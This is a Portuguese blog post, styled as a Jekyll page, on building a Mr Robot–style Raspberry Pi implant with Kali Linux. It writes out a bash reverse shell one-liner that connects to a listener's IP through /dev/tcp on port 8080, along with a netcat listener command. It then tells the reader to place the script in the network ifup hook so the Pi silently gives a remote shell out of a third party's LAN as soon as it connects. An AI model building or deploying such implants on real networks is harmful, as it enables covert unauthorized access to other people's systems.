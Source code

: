 ```yaml
---
layout: post
title: Mr robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr\_robot, raspberry, hack, reverse\_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não é exetamente igual as condições encontradas por Elliot na série no episódio eps1.3\_\_da3m0ns.mp4. Portanto, optei por adaptar um pouco esse tutorial para que ele se torne mais fiel ao conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais.

1. Baixar o ![Kali linux para arm](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que mais se adequa ao hardware que estiver sendo utilizado. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

![offensive security]({{ site.url }}/images/offensive-sec.png)

2. Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey.

{% highlight bash%}
{% raw %}
bash -i >& /dev/tcp/\<ip da maquina que está escutando\>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight bash%}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com esse formato.

3. Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4. Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto que nos desviamos um pouco do artigo que utilizamos como base.
No lugar de utilizar teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. Dessa forma, assim que a interface do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br

